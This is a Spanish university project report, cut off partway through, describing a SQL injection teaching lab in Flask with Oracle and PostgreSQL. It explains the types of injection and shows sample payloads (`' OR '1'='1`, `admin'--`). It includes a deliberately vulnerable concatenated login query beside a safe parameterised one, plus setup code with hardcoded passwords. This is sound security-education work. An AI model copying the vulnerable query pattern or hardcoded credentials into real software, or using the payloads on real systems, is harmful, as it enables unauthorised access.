\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc} % Ensure the file is saved with UTF-8 encoding
\usepackage[a4paper, margin=1in, footskip=1cm]{geometry}
\usepackage[T1]{fontenc}
\usepackage[spanish]{babel}  % Para escribir en español
\usepackage{graphicx}  % Para insertar imágenes
\usepackage{geometry}  % Para ajustar los márgenes
\usepackage{titling}   % Para personalizar el título
\usepackage{setspace}  % Para ajustar el espaciado
\usepackage{fancyhdr}
\usepackage{xcolor}    % Para cambiar el color de la línea del encabezado
\usepackage{listings}
\usepackage{soul}
\usepackage{caption}
\usepackage{wrapfig}
\usepackage{longtable}  % Para dividir en varias páginas
\usepackage{float}  % Ayuda con los entornos flotantes
\usepackage[absolute,overlay]{textpos}
\usepackage[hidelinks]{hyperref}
\usepackage{url}
\usepackage{hyperref}

\geometry{top=2cm,bottom=2cm,left=2cm,right=2cm}  % Márgenes personalizados
\definecolor{mybeige}{RGB}{245, 245, 200}
\definecolor{lightblue}{RGB}{173, 216, 230}
\definecolor{lightgray}{RGB}{240, 240, 240}

% Configuración del encabezado
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{
\includegraphics[height=1.5cm]{Imagenes/logounex.png}}  % Imagen a la izquierda
\fancyhead[C]{\raisebox{0.3cm}{\shortstack{Programación en Bases de Datos \\ Proyecto Hacking Ético: SQL Injection}}}  % Texto en el centro
\fancyhead[R]{
\includegraphics[height=1.5cm]{Imagenes/logopoli.png}}  % Imagen a la derecha
\renewcommand{\headrulewidth}{0.4pt}  % Línea debajo del encabezado
\setlength{\headheight}{1.5cm}
\setlength{\headsep}{1cm}
\setlength{\TPHorizModule}{1cm}
\setlength{\TPVertModule}{1cm}

% Configuración del pie de página
\fancyfoot[L]{\textit{Universidad de Extremadura}}  % Texto a la izquierda
\fancyfoot[C]{\thepage}  % Número de página en el centro
\fancyfoot[R]{\textit{Curso 2024-2025}}  % Texto a la derecha
\renewcommand{\footrulewidth}{0.4pt}  % Línea encima del pie de página
\setlength{\footskip}{0cm}

\setlength{\textheight}{24cm} % Ajusta la altura del área de texto
\setlength{\footskip}{2cm}    % Espacio entre el contenido y el pie de página

% Configuración del entorno listings para resaltar el código Python
\lstset{
    inputencoding=utf8,
    language=Python,
    basicstyle=\ttfamily\small,
    backgroundcolor=\color{mybeige},
    keywordstyle=\color{blue},
    commentstyle=\color{green},
    stringstyle=\color{red},
    frame=single,
    rulecolor=\color{black},
    showstringspaces=false,
    numbers=left,
    numberstyle=\tiny,
    numbersep=5pt,
    tabsize=4,
    aboveskip=1em,                     % Espacio antes del bloque
    belowskip=2em,                     % Espacio después del bloque
    breaklines=true,
    breakatwhitespace=false,
    escapeinside={(*@}{@*)},
    literate={ñ}{{\~n}}1
             {á}{{\'a}}1
             {é}{{\'e}}1
             {í}{{\'i}}1
             {ó}{{\'o}}1
             {ú}{{\'u}}1
             {Á}{{\'A}}1
             {É}{{\'E}}1
             {Í}{{\'I}}1
             {Ó}{{\'O}}1
             {Ú}{{\'U}}1
             {Ñ}{{\~N}}1
}

\lstset{
    language=SQL, % Utiliza SQL como base
    basicstyle=\ttfamily\small,
    backgroundcolor=\color{mybeige},
    keywordstyle=\color{blue}\bfseries,
    commentstyle=\color{green!50!black},
    stringstyle=\color{red},
    frame=single,
    rulecolor=\color{black},
    showstringspaces=false,
    numbers=left,
    numberstyle=\tiny,
    numbersep=5pt,
    tabsize=4,
    aboveskip=1em,                     % Espacio antes del bloque
    belowskip=2em,                     % Espacio después del bloque
    breaklines=true,
    breakatwhitespace=false,
    escapeinside={(*@}{@*)},
    morekeywords={
        PROCEDURE, FUNCTION, BEGIN, END, DECLARE, IF, THEN, ELSE, ELSIF, 
        LOOP, FOR, WHILE, EXIT, NULL, EXCEPTION, RAISE, COMMIT, ROLLBACK,
        CURSOR, OPEN, FETCH, CLOSE, GRANT, REVOKE, PACKAGE, TYPE, 
        ALTER, DROP, TRUNCATE, MERGE, USING, VALUES, INTO, SELECT, 
        INSERT, UPDATE, DELETE, RETURN, OUT, IN, INOUT, CONSTANT
    },
    morecomment=[l]{--}, % Comentarios de una línea con --
    morecomment=[s]{/*}{*/}, % Comentarios de bloque
    morestring=[b]', % Cadenas entre comillas simples
    inputencoding=utf8,
    literate={ñ}{{\~n}}1
             {á}{{\'a}}1
             {é}{{\'e}}1
             {í}{{\'i}}1
             {ó}{{\'o}}1
             {ú}{{\'u}}1
             {Á}{{\'A}}1
             {É}{{\'E}}1
             {Í}{{\'I}}1
             {Ó}{{\'O}}1
             {Ú}{{\'U}}1
             {Ñ}{{\~N}}1
}

\lstdefinestyle{console}{
    backgroundcolor=\color{lightgray}, % Color de fondo
    basicstyle=\ttfamily\small,        % Fuente monoespaciada y tamaño pequeño
    breaklines=true,                   % Permitir saltos de línea
    stringstyle=\color{black},
    frame=single,                      % Marco alrededor del código
    framerule=0.5pt,                   % Grosor del marco
    rulecolor=\color{black},           % Color del marco
    xleftmargin=0.5cm,                 % Margen izquierdo
    xrightmargin=0.5cm,                % Margen derecho
    aboveskip=1em,                     % Espacio antes del bloque
    belowskip=2em,                     % Espacio después del bloque
    escapeinside={(*@}{@*)},
    inputencoding=utf8,      % Configura el encoding
    literate={ñ}{{\~n}}1
             {á}{{\'a}}1
             {é}{{\'e}}1
             {í}{{\'i}}1
             {ó}{{\'o}}1
             {ú}{{\'u}}1
             {Á}{{\'A}}1
             {É}{{\'E}}1
             {Í}{{\'I}}1
             {Ó}{{\'O}}1
             {Ú}{{\'U}}1
             {Ñ}{{\~N}}1
}

\begin{document}

\begin{titlepage}
    \centering

    % Imagen de la portada (fotoportada)
    
\includegraphics[width=0.75\textwidth]{Imagenes/fotoportada.png} % Asegúrate de que el archivo esté en la misma carpeta

    \vspace{1cm}

    % Título
    {\Huge \textbf{Programación en Bases de Datos} \par}

    \vspace{0.3cm}

    % Línea de separación
    \rule{\linewidth}{0.1mm}

    \vspace{0.3cm}

    % Subtítulo
    {\LARGE \textbf{Proyecto Hacking Ético: SQL Injection} \par}

    \vspace{1.5cm}

    % Logo de la universidad (logounex)
    
\includegraphics[width=0.25\textwidth]{Imagenes/logounex.png} % Asegúrate de que el archivo esté en la misma carpeta

    \vfill

    % Autor
    {\footnotesize Alejandro Bofill Gonzalez - David Gordillo Burrero - Aarón Manzano Mateos - Ángel Macías Barro \par}

\end{titlepage}

\newpage

\begin{center}
    \renewcommand{\contentsname}{Índice de contenidos}\tableofcontents
\end{center}

\newpage

%Introduccion
\section{Introducción al proyecto}
El presente documento aborda el tema del hacking ético y su aplicación en el estudio de vulnerabilidades en bases 
de datos, con un enfoque particular en las inyecciones SQL. Estas vulnerabilidades constituyen uno de los riesgos 
más comunes y críticos en aplicaciones web que interactúan con bases de datos, permitiendo a los atacantes manipular 
o acceder a información de manera no autorizada. Este trabajo tiene como propósito profundizar en la comprensión de las 
inyecciones SQL, analizando sus tipos, los riesgos asociados y los motivos por los cuales ocurren, para fomentar una perspectiva 
integral de la seguridad en el desarrollo de software.
\vspace{0,5cm}
Para facilitar el aprendizaje práctico y la evaluación de estas vulnerabilidades, se ha desarrollado un laboratorio interactivo 
basado en tecnologías como Flask y Python. Este entorno de simulación permite experimentar con diferentes tipos de inyecciones SQL,
 ofreciendo a los usuarios una experiencia inmersiva y controlada. El laboratorio incluye aplicaciones web diseñadas específicamente
  para emular escenarios reales de inyecciones SQL, permitiendo realizar pruebas tanto en bases de datos Oracle como en PostgreSQL.
   Estas bases de datos, seleccionadas por su relevancia y amplio uso en entornos empresariales, proporcionan un contexto diverso y
    representativo para explorar las técnicas de ataque y sus consecuencias.
    \vspace{0,5cm}

Cada tipo de inyección SQL implementada en el laboratorio ha sido cuidadosamente seleccionada para cubrir un amplio espectro de 
vulnerabilidades. Entre ellas, se encuentran las inyecciones basadas en errores, que explotan los mensajes de error generados por
 la base de datos para extraer información sensible; las inyecciones de tipo "Union Attack", que utilizan la cláusula UNION para 
 combinar resultados de consultas y obtener datos confidenciales; las inyecciones basadas en booleanos, que permiten inferir 
 información mediante la manipulación de condiciones lógicas; y las inyecciones ciegas, que aprovechan diferencias en el 
 comportamiento de la aplicación para deducir detalles de la base de datos sin generar mensajes de error explícitos.
 \vspace{0,5cm}

El diseño del laboratorio incluye páginas individuales para cada tipo de inyección, con formularios de inicio de sesión 
vulnerables, credenciales específicas para realizar las pruebas y explicaciones detalladas sobre el ataque correspondiente.
 Esto permite que los usuarios comprendan tanto la teoría subyacente como la ejecución práctica de cada tipo de inyección. 
 Además, el laboratorio cuenta con documentación complementaria que explica cómo se implementaron las vulnerabilidades y su 
 relevancia en entornos reales, proporcionando una base sólida para que los participantes puedan identificar y mitigar estos 
 riesgos en sus propios proyectos.

 \vspace{0,5cm}
Este trabajo no solo subraya los riesgos asociados con las inyecciones SQL, como el acceso no autorizado a datos confidenciales,
 la alteración o eliminación de información crítica y el compromiso total del servidor de base de datos, sino que también explora 
 las causas más comunes detrás de estas vulnerabilidades. Entre ellas, se encuentran la falta de sanitización de las entradas del
  usuario, el uso de consultas dinámicas inseguras y la ausencia de auditorías de seguridad durante el desarrollo de software. Al
   comprender estos factores, se busca fomentar la adopción de mejores prácticas en la construcción de aplicaciones seguras y
    resilientes.
    
    \vspace{0,5cm}
En conclusión, este proyecto combina un enfoque teórico y práctico para abordar una de las amenazas más relevantes 
en el ámbito de la seguridad informática. Al proporcionar un entorno interactivo y educativo, se espera que este laboratorio 
no solo aumente la conciencia sobre la importancia de prevenir las inyecciones SQL, sino que también capacite a los participantes
 en la identificación, explotación controlada y mitigación de estas vulnerabilidades. Este esfuerzo refleja el compromiso con la 
 promoción de un desarrollo de software más seguro, alineado con los principios del hacking ético y la ciberseguridad.

 \section{Inyección SQL}

    \subsection{¿Qué es una inyección SQL?}

 Imagina que estás en un restaurante y entregas tu orden al mesero. Si todo funciona como debería, el mesero simplemente transmite tu pedido al chef, quien prepara la comida según lo solicitado. Ahora bien, ¿qué pasaría si, en lugar de un pedido normal, decides escribir en la nota algo como: "Quiero una pizza, y además dame acceso a la caja registradora"? Si el sistema del restaurante no tiene medidas para validar las órdenes, es posible que el mensaje llegue al chef, quien podría malinterpretarlo como una instrucción válida y permitirte hacer algo que no deberías poder hacer. Algo similar ocurre con una inyección SQL, pero en el contexto de aplicaciones web y bases de datos.
 \vspace{0,5cm}

 Una inyección SQL es un tipo de ataque en el que un atacante manipula las consultas que una aplicación web hace a su base de datos para ejecutar comandos maliciosos. Esto sucede cuando el sistema no valida adecuadamente las entradas proporcionadas por los usuarios y las trata directamente como parte de la consulta SQL. Por ejemplo, en una página de inicio de sesión, si un usuario malintencionado introduce un texto diseñado específicamente para alterar la lógica de la consulta SQL que valida las credenciales, podría obtener acceso no autorizado al sistema sin necesidad de conocer la contraseña.
 \vspace{0,5cm}

 \begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/ejemploSQL.png}
    \caption{Ilustración del flujo de una SQLI}
\end{figure}

\vspace{0,5cm}


 Un caso real que ilustra el impacto de las inyecciones SQL ocurrió en el año 2012, cuando un grupo de atacantes explotó esta vulnerabilidad en una aplicación de LinkedIn. Mediante una inyección SQL, los atacantes lograron acceder a información confidencial de usuarios, incluidos datos de inicio de sesión. Este incidente no solo expuso la información personal de millones de personas, sino que también dañó la reputación de la compañía y resaltó la gravedad de no implementar medidas de seguridad adecuadas.
 \vspace{0,5cm}

 Por ejemplo, imagina una consulta SQL en una aplicación web que maneja la autenticación de usuarios. Una consulta típica podría ser:
 \vspace{0,2cm}

 \begin{lstlisting}[language=SQL]
SELECT * FROM usuarios 
WHERE nombre_usuario = 'usuario' 
AND contraseña = 'contraseña';
 \end{lstlisting}
 \vspace{0,2cm}

 Si el sistema permite que un atacante ingrese algo como \texttt{usuario' OR '1'='1} en lugar del nombre de usuario, la consulta resultante sería:
 \vspace{0,2cm}

 \begin{lstlisting}[language=SQL]
SELECT * FROM usuarios 
WHERE nombre_usuario = 'usuario' OR '1'='1' 
AND contraseña = 'contraseña';
\end{lstlisting}
\vspace{0,2cm}

 La condición \texttt{'1'='1'} siempre es verdadera, lo que significa que el atacante podría acceder al sistema sin necesidad de proporcionar credenciales válidas. Este ejemplo muestra cómo una entrada maliciosa puede alterar la lógica de una consulta SQL, dándole al atacante el control.
 \vspace{0,5cm}

 Las inyecciones SQL pueden tener consecuencias graves, que incluyen el robo de datos confidenciales, la modificación o eliminación de registros, y en casos extremos, el control total del servidor de la base de datos. Además, son una de las vulnerabilidades más comunes en aplicaciones web, según el \textit{OWASP} (Open Web Application Security Project). Sin embargo, prevenirlas no es complicado si se aplican prácticas adecuadas, como el uso de consultas preparadas, la validación estricta de entradas y la implementación de controles de acceso robustos.
 \vspace{0,5cm}

 En resumen, una inyección SQL no es solo un fallo técnico, sino un ejemplo de cómo pequeñas omisiones en la seguridad pueden tener grandes repercusiones. Conocer cómo ocurren y cómo prevenirlas es esencial para cualquier profesional que desarrolle aplicaciones conectadas a bases de datos, ya que no solo se trata de proteger sistemas, sino también la confianza y la información de los usuarios.
 
 \subsection{Causa principal de las inyecciones SQL}

 La principal causa de las inyecciones SQL es una mala validación de las entradas proporcionadas por los usuarios. Esto ocurre, en muchos casos, debido a la concatenación directa de parámetros en las consultas SQL, lo que permite que un atacante manipule la estructura de la consulta para incluir comandos maliciosos. Este enfoque no solo es inseguro, sino que también facilita la explotación de las vulnerabilidades al no distinguir entre los datos del usuario y el código SQL.
 \vspace{0,5cm}

 Un ejemplo típico de concatenación de parámetros puede observarse en la siguiente función de autenticación insegura para una base de datos Oracle. Aquí, los valores proporcionados por el usuario, como el nombre de usuario y la contraseña, se concatenan directamente en la consulta:
 \vspace{0,5cm}


 
\begin{lstlisting}[language=Python]
# Función de autenticación insegura
def login_inseguro_base_oracle(username, password):
.
.
.


    sentencia =   "SELECT * FROM Usuarios WHERE username = '"+username+"' AND password = '"+password+"'"



    

    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchall()
        cursor.close()
        if usuario:
            print("Usuario autenticado:", usuario)
            return {"resultado":usuario, "sentencia":sentencia, "auth":"true"}
        else:
.
.
.
    \end{lstlisting}

 \vspace{0,5cm}

 En este ejemplo, si un atacante introduce un valor malicioso como \texttt{username = 'admin'--} en lugar de un nombre de usuario legítimo, puede manipular la consulta para obtener acceso al sistema sin necesidad de una contraseña válida. Esto ocurre porque la concatenación no distingue entre datos y comandos SQL, permitiendo al atacante alterar la lógica de la consulta.
 \vspace{0,5cm}

 Una forma segura de evitar este tipo de vulnerabilidades es utilizar la vinculación de parámetros en lugar de la concatenación. Este enfoque asegura que los datos del usuario sean tratados exclusivamente como valores y no como parte del código SQL. A continuación, se presenta un ejemplo seguro de autenticación utilizando vinculación de parámetros en Oracle:
 \vspace{0,5cm}

 \begin{lstlisting}[language=Python]
 # Función de autenticación segura
def login_seguro_oracle(username, password):
.
.
.

    try:
        cursor = conexion.cursor()
        (*@\colorbox{yellow}{cursor.execute("SELECT * FROM Usuarios }@*)
        (*@\colorbox{yellow}{WHERE username = :user }@*)
        (*@\colorbox{yellow}{AND password = :pass", user=username, pass=password)}@*)
        usuario = cursor.fetchone()
        cursor.close()
        if usuario:
            print("Usuario autenticado:", usuario)
            return True
        else:
.
.
.
 \end{lstlisting}
 \vspace{0,5cm}

 En este caso, el uso de \texttt{:user} y \texttt{:pass} como marcadores de posición permite que los valores del usuario sean procesados de manera segura por el motor de la base de datos. Esto elimina cualquier posibilidad de que se interpreten como comandos SQL, previniendo ataques de inyección SQL. Este enfoque no solo mejora la seguridad de la aplicación, sino que también fomenta mejores prácticas en el manejo de entradas de usuario.
 
    \subsection{Tipos de inyecciones SQL}
    Las inyecciones SQL pueden manifestarse de diferentes formas, dependiendo de la vulnerabilidad específica que se explote y del comportamiento del sistema. A continuación, se presentan algunos de los tipos más comunes de inyecciones SQL y cómo se manifiestan en el contexto de una aplicación web.
    \vspace{0,5cm}

    \begin{itemize}
        \item \textbf{Inyección basada en errores:} Este tipo de inyección aprovecha los mensajes de error generados por la base de datos para obtener información sobre la estructura y el contenido de la base de datos. Al introducir consultas mal formadas, un atacante puede provocar errores que revelan detalles sensibles, como nombres de tablas o columnas.
        \vspace{0,2cm}
        \item \textbf{Inyección de tipo Union Attack:} Las inyecciones de tipo "Union Attack" se basan en la cláusula UNION de SQL para combinar resultados de consultas y obtener información confidencial. Al manipular las consultas para incluir una instrucción UNION, un atacante puede extraer datos de tablas no autorizadas.
        \vspace{0,2cm}
        \item \textbf{Inyección basada en booleanos:} Las inyecciones basadas en booleanos se aprovechan de las diferencias en el comportamiento de la aplicación para inferir información sobre la base de datos. Al modificar las condiciones lógicas de las consultas, un atacante puede deducir detalles sobre la estructura y el contenido de la base de datos.
        \vspace{0,2cm}
        \item \textbf{Inyección blind:} Las inyecciones ciegas se caracterizan por la falta de mensajes de error explícitos, lo que dificulta la identificación de la vulnerabilidad. Al manipular las consultas para observar cambios en el comportamiento de la aplicación, un atacante puede inferir información sobre la base de datos sin generar alertas.
        \vspace{0,2cm}
        \item \textbf{Inyección blind de tiempo:} Las inyecciones de tiempo se basan en la introducción de retrasos deliberados en las consultas para inferir información sobre la base de datos. Al introducir instrucciones que causan demoras en la respuesta, un atacante puede deducir detalles sobre la estructura y el contenido de la base de datos.
    \end{itemize}
    \vspace{0,5cm}

    Cada tipo de inyección SQL presenta desafíos y riesgos únicos, que van desde la exposición de información confidencial hasta la alteración de registros críticos. Al comprender cómo ocurren y cómo prevenirlas, los desarrolladores y profesionales de la seguridad pueden fortalecer la protección de sus aplicaciones y bases de datos, reduciendo así la exposición a riesgos innecesarios.

        



%Preparacion del entorno explicacion de las funciones de requerimientos
\section{Preparación del entorno}
En este apartado se detallarán los requerimientos necesarios para la correcta ejecución del proyecto, 
así como las funciones que se han implementado para la creación de la base de datos y la inserción de datos en la misma.

\subsection{Prerequisitos}
A modo de base para el correcto desarrollo y ejecución del proyecto, es necesario tener instalado en el sistema los siguientes paquetes:
\begin{itemize}
    \item Oracle Database
    \item PostgreSQL Database
    \item Python 
\end{itemize}

La version descargada de los anteriores paquetes puede ser la que ha sido configurada en anteriores prácticas 
desarrolladas en la asignatura de Programación en Bases de Datos.

\subsection{Requerimientos de ejecución}
Una vez configurados correctamente los prerequisitos que no estan ligados especificamente con esta práctica,
se procederá a la instalación de las librerias y frameworks de python que han sido necesarios para el desarrollo de este laboratorio.
Para facilitar este proceso se ha generado un fichero con las librerias necesarias que se puede instalar mediante el siguiente comando:

\begin{lstlisting}[style=console]
    pip install -r requirements.txt
\end{lstlisting}

En dicho fichero \textit{requirements.txt} se encuentran las siguientes librerias:
\begin{itemize}
    \item \textbf{Flask} con version 2.2.0
    \item \textbf{werkzeug} con version 2.2.0
    \item \textbf{oracledb} con version mayor o igual a 2.4.1
    \item \textbf{psycopg2} con version mayor o igual a 2.9.9
    \item \textbf{requests} con version mayor o igual a 2.32.2
    \item \textbf{termcolor} con version 2.2.0
    \item \textbf{yaspin} con version mayor o igual a 3.1.0
\end{itemize}

\section{Conexión de la base de datos}
Para la conexión de la base de datos se han implementado funciones de conectar y desconectar que permiten la conexión a Oracle y PostgreSQL.
Estas funciones se han implementado en los archivos \textit{setupOracle.py} y \textit{setupPostgres.py}.
A continuación se detallan las funciones implementadas en cada uno de los archivos.

\subsection{Oracle}
A continuación se muestran las funciones que se ha implementado en el archivo \textit{setupOracle.py} para la conexión a Oracle.

\begin{lstlisting}[language=Python]
# Función para conectar a la base de datos
def dbConectarOracle():
    ip = "localhost"
    puerto = 1521
    s_id = "xe"
    usuario = "system"
    contrasena = "12345"

    print("---dbConectarOracle---")
    print("---Conectando a Oracle---")

    try:
        conexion = PBD.connect(user=usuario, password=contrasena, host=ip, port=puerto, sid=s_id)
        print("Conexión realizada a la base de datos", conexion)
        return conexion
    except PBD.DatabaseError as error:
        print("Error en la conexión")
        print(error)
        return None

# Función para desconectar de la base de datos
def dbDesconectar(conexion):
    print("---dbDesconectar---")
    try:
        if conexion:  # Verifica que la conexión no sea None
            conexion.commit()  # Confirma los cambios

            conexion.close()
            print("Desconexión realizada correctamente")
            return True
        else:
            print("No hay conexión para cerrar.")
            return False
    except PBD.DatabaseError as error:
        print("Error en la desconexión")
        print(error)
        return False
\end{lstlisting}

\subsection{PostgreSQL}
A continuación se muestra la funciones que se ha implementado en el archivo \textit{setupPostgres.py} para la conexión a PostgreSQL.

\begin{lstlisting}
    
def dbConectarPostgreSQL():
ip = "localhost"
puerto = 5432
basedatos = "Empresa"

usuario = "postgres"
contrasena = "12345"

print("---dbConectarPostgreSQL---")
print("---Conectando a Postgresql---")

try:
    conexion = PBD.connect(user=usuario, password=contrasena, host=ip, port=puerto, database=basedatos)
    print("Conexión realizada a la base de datos",conexion)
    return conexion
except PBD.DatabaseError as error:
    print("Error en la conexión")
    print(error)
    return None

#-------------------------------------------------------------------

def dbDesconectar(conexion):
print("---dbDesconectar---")
try:
    conexion.commit()  # Confirma los cambios
    conexion.close()
    print("Desconexión realizada correctamente")
    return True
except PBD.DatabaseError as error:
    print("Error en la desconexión")
    print(error)
    return False
\end{lstlisting}
%Setup Oracle y Setup Postgre
\section{Creación de tablas}
Para la creación de las tablas en Oracle y PostgreSQL se han implementado dos funciones que permiten la creación de las mismas.
Se ha decidido crear una tabla llamada \textit{Usuarios} con los campos \textit{id}, \textit{username}, \textit{password} y \textit{session\_cookie}.
Además, se ha incluido la inserción de usuarios de ejemplo en la tabla, para poder hacer uso de ellos en las inyecciones del laboratorio.
Estas funciones se han implementado en los archivos \textit{setupOracle.py} y \textit{setupPostgres.py}. 
A continuación se detallan las funciones implementadas en cada uno de los archivos.

\subsection{Oracle}
A continuación se muestra la función que se ha implementado en el archivo \textit{setupOracle.py} para la creación de la tabla en Oracle.
\begin{lstlisting}[language=Python]
    # Funcion para la configuracion de tablas
    def configuracionTablas\_oracle(conexion):
        print("---configuracionTablas---")
        try:
            cursor = conexion.cursor()
    
            # Crear tabla Usuarios si no existe con columna session\_cookie
            consulta = """
                BEGIN
                    EXECUTE IMMEDIATE 'CREATE TABLE Usuarios (
                        id NUMBER GENERATED BY DEFAULT AS IDENTITY PRIMARY KEY,
                        username VARCHAR2(50) NOT NULL UNIQUE,
                        password VARCHAR2(50) NOT NULL,
                        session\_cookie VARCHAR2(255)
                    )';
                EXCEPTION
                    WHEN OTHERS THEN
                        IF SQLCODE = -955 THEN
                            NULL;  -- Ignora si la tabla ya existe
                        ELSE
                            RAISE;
                        END IF;
                END;
            """
            cursor.execute(consulta)
    
            # Insertar usuarios de ejemplo solo si la tabla esta vacia
            cursor.execute("SELECT COUNT(*) FROM Usuarios")
            count = cursor.fetchone()[0]
            print("Usuarios en la tabla:", count)
            if count == 0:
                usuarios\_ejemplo = [
                    ("admin", "password123", "t4SpnpWyg76A3K2BqcFh2vODq0fqJGvs38ydh9"),
                    ("user1", "password1", "d382yd8n21df4314fn817yf6834188ls023d8d"),
                    ("user2", "password2", "u73dv226d726gh23fnjncuyg0q9udfjf47eueu")
                ]
                cursor.executemany(
                    "INSERT INTO Usuarios (username, password, session\_cookie) VALUES (:username, :password, :session\_cookie)",
                    usuarios\_ejemplo
                )
                print("Usuarios de ejemplo insertados correctamente.")
            else:
                print("La tabla Usuarios ya contiene datos.")
    
            cursor.close()
            print("Tabla 'Usuarios' creada o verificada exitosamente")
            return True
        except PBD.DatabaseError as error:
            print("Error al crear la tabla o insertar usuarios")
            print(error)
            return False
\end{lstlisting}

\subsection{PostgreSQL}
A continuación se muestra la función que se ha implementado en el archivo \textit{setupPostgres.py} para la creación de la tabla en PostgreSQL.
\begin{lstlisting}[language=Python]
def configuracion_tablas_postgresql(conexion):
print("---configuracion_tablas_postgresql---")
try:
    cursor = conexion.cursor()

    # Crear la tabla Usuarios si no existe con columna session_cookie
    consulta = """
        CREATE TABLE IF NOT EXISTS Usuarios (
            id SERIAL PRIMARY KEY,
            username VARCHAR(50) NOT NULL UNIQUE,
            password VARCHAR(50) NOT NULL,
            session_cookie VARCHAR(255)
        );
    """
    cursor.execute(consulta)

    # Insertar usuarios de ejemplo solo si la tabla esta vacia
    cursor.execute("SELECT COUNT(*) FROM Usuarios")
    count = cursor.fetchone()[0]
    if count == 0:
        usuarios_ejemplo = [
            ("admin", "password123", "t4SpnpWyg76A3K2BqcFh2vODq0fqJGvs38ydh9"),
            ("user1", "password1", "d382yd8n21df4314fn817yf6834188ls023d8d"),
            ("user2", "password2", "u73dv226d726gh23fnjncuyg0q9udfjf47eueu")
        ]
        cursor.executemany(
            "INSERT INTO Usuarios (username, password, session_cookie) VALUES (%s, %s, %s)",
            usuarios_ejemplo
        )
        print("Usuarios de ejemplo insertados correctamente.")
    else:
        print("La tabla Usuarios ya contiene datos.")

    cursor.close()
    print("Tabla 'Usuarios' creada o verificada exitosamente en PostgreSQL")
    return True
except PBD.DatabaseError as error:
    print("Error al crear la tabla o insertar usuarios en PostgreSQL")
    print(error)
    return False
\end{lstlisting}


%Introducción laboratorio explicando en detalle cada funcion
\section{Introducción al laboratorio}
Se ha desarrollado un laboratorio interactivo que permite experimentar con diferentes tipos de inyecciones SQL en bases de datos Oracle y PostgreSQL. 
En los siguientes apartados se explicará en detalle cada inyección y cómo se ha implementado en el laboratorio.

%Documentacion inyeccion a inyeccion (otra \section separada)
\section{Inyección basada en errores de la base de datos}
La \textbf{inyección SQL basada en errores} es un tipo de ataque de inyección SQL en el que el atacante explota la información 
expuesta directamente por los mensajes de error generados por la base de datos. Estos mensajes de error proporcionan pistas sobre la estructura, 
